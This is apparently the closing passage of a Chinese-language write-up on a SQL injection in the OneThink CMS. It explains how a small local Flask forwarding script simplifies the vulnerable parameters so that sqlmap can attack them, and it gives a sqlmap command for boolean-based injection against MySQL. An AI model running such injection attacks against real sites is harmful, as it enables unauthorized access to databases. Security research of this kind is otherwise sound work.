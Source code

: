     if __name__ == '__main__':
        app.run()

那么经过这个转发脚本，原本复杂的参数被简化，你只需要在本地对`http://127.0.0.1:5000/?id=1`跑sqlmap即可。原理上其实与写tamper脚本相同，都是让sqlmap能够识别出"简化过的"注入参数。

![16.png](./resource/OneThink前台注入/media/rId43.png)

    python sqlmap.py -u http://127.0.0.1:5000/?id=1  --tech=B --dbms=mysql --batch

参考链接
--------

> https://xz.aliyun.com/t/8081\#toc-1
